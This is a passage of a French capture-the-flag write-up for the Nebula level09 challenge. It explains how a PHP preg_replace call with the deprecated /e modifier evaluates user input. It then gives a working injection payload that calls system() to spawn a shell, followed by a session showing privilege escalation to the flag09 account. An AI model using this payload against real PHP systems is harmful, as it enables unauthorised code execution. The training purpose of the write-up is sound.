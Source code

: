 Cette fois le binaire semble blindé pour éviter que l'on joue avec les variables d'environnement.

Le PHP mentionné est le suivant :

```php
<?php

function spam($email)
{
        $email = preg_replace("/\./", " dot ", $email);
        $email = preg_replace("/@/", " AT ", $email);

        return $email;
}

function markup($filename, $use_me)
{
        $contents = file_get_contents($filename);

        $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
        $contents = preg_replace("/\[/", "<", $contents);
        $contents = preg_replace("/\]/", ">", $contents);

        return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
```

Les plus anciens auront remarqué la présence de l'option `/e` sur `preg_replace`. C'est un indicateur qui a été déprécié depuis mais ce qu'il se passe sur le match pour l'adresse email dans la fonction `markup` c'est que le code va extraire ce qui se trouve entre `[email ` et `]` (second groupe entre parenthèses). En raison du `/e` la valeur du second groupe est injectée dans l'expression `spam(\"\\2\")` située en second argument de `preg_replace` et exécutée.

Depuis PHP a introduit une fonction plus explicite dont le nom contient `callback`.

Mais malheureusement l'injection n'est pas aussi simple car PHP nous échappe les caractères qui devraient nous permettre d'injecter notre code PHP.

Après recherche il faut utiliser une syntaxe *curly* particulière :

```shellsession
level09@nebula:/home/flag09$ cat /tmp/test.php
[email {${system(chr(100).chr(97).chr(115).chr(104))}}]
level09@nebula:/home/flag09$ ./flag09 /tmp/test.php yolo
id
uid=1010(level09) gid=1010(level09) euid=990(flag09) groups=990(flag09),1010(level09)
getflag
You have successfully executed getflag on a target account
^C
```
